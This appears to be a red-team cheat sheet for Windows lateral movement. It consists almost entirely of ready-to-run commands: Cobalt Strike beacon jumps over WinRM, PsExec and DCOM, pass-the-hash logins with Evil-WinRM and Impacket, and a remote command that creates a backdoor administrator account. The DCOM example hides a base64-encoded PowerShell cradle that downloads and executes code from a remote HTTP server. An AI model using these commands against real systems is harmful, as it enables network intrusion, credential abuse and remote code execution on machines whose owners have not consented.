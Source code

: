 ```
beacon> jump winrm64 w-west-239 peer-tcp
[...]

beacon> remote-exec winrm w-west-239 whoami; systeminfo
[...]
```

Evil-WinRM

```
# setup proxy via CS
beacon> socks 1050

#edit /etc/proxychains.conf
$ proxychains evil-winrm -i 10.0.0.3 -u administrator -H 125j41487b0c24188af4e4fed5zcreba
```

Invoke-Command

```
Invoke-Command -computername dtop23.vault.io -ScriptBlock {ipconfig /all} [-credential vault.io\b.boss]
```

### PsExec

CS

```
# jump
beacon> jump psexec64 w-west-239 peer-tcp
[...]

# remote exec
beacon> remote-exec psexec w-west-239 cmd.exe /c "net user haxor Passw0rd /add && net localgroup administrators haxor /add"
[...]
```

Impacket

```
# setup socks proxy via CS
$ proxychains psexec.py -hashes '125j41487b0c24188af4e4fed5zcreba:125j41487b0c24188af4e4fed5zcreba' 'vault.io/administrator@10.0.0.3'
```

### DCOM

```
beacon> execute-assembly /opt/tools/CsDCOM.exe -t w-west-239 -b powershell.exe -a "-enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMQAuADEAMAA2ADoAOAAwADAAMAAvAGgAbwBtAGUAJwApACkA" -m mmc20application
[...]

beacon> connect w-west-239 444
[...]
```
